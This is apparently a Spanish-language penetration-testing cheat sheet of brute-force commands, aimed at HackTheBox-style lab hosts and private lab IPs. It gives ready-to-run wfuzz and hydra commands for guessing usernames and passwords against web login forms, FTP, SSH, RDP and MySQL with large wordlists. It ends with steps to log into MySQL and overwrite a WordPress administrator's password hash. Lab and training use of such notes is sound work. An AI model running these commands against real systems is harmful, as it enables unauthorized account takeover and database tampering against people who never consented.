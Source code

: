 
### BRUTEFORCE CON WFUZZ
```shell
BURPSUITE --> ExtractData --> Inspector => Network => LoginReq => RawData (COPY)

# ESTE MENSAJE POR EJEMPLO EN ESTE CASO APARECE CUANDO ES VALIDO EL USUARIO.
❯ wfuzz -c --ss="Invalid login, please try again" -t 200 -X POST -w /usr/share/SecLists/Usernames/Names/names.txt -d 'anchor=&username=FUZZ&password=password' http://teacher.htb/moodle/login/index.php


#CONTRASEÑA
❯ wfuzz -c -t 200 -X POST -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -d 'username=kanderson&password=FUZZ' http://cozyhosting.htb/login
```


### BRUTE FORCE CON HYDRA
```shell
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 50
```

### FTP
```SHELL
hydra -l john -P /usr/share/SecLists/Passwords/xato-net-10-million-passwords-100000.txt ftp://IP_DEL_SERVIDOR
```
### SSH
```SHELL
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

### RDP
```SHELL
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


### MYSQL
### HYDRA
```shell
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.241.88 MySQL -v
```

### CONECTARSE
```shell
mysql -h 192.168.143.88 -u root -p --ssl=0
```


### CAMBIAR HASH DE UNA CONTRASEÑA
```shell
echo -n "123456" | md5sum; echo ""
UPDATE wp_users SET user_pass="HASH" WHERE ID=1;
```